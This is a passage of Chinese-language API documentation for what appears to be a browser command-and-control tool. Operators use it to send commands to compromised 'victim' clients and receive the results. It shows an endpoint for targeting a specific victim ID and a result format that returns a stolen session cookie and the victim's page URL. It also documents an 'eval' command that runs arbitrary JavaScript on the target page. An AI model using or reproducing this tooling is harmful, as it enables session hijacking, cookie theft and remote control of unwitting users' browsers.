 ### 3. 使用目标ID发送命令（替代方法）
```http
POST /api/commands?project={project_id}
Content-Type: application/json
```

**请求体:**
```json
{
  "target_id": "victim_abc123",
  "command": "location",
  "args": {}
}
```

**说明:** 当提供 `target_id` 时，命令将仅发送给指定项目内的指定客户端而非广播

## ⚡ API 执行机制

### 🔄 同步执行
- API会等待靶机执行完命令并返回结果（默认超时10秒）
- 响应中的 `results` 字段包含所有靶机的执行结果
- 每个结果包含客户端ID、命令、结果数据、来源URL和时间戳

### 📊 结果格式
```json
{
  "client_id": "victim_abc123",    // 执行命令的靶机ID
  "command": "cookie",             // 执行的命令
  "result": "session_id=abc123",   // 命令执行结果
  "url": "https://target.com",     // 靶机所在页面URL  
  "timestamp": 1640995200          // 执行时间戳
}
```

### ⏱️ 超时处理
- 如果在10秒内未收到所有结果，API将返回已收集的结果
- 消息显示为 "命令已发送，但未收到任何结果（可能无客户端在线或超时）"

---

## 🎯 可用命令类型

### 1. 执行 JavaScript 代码
```json
{
  "command": "eval",
  "args": {
    "code": "document.title"
  }
}
```
**功能:** 在目标页面执行任意 JavaScript 代码
**用途:** 自定义操作、高级信息收集
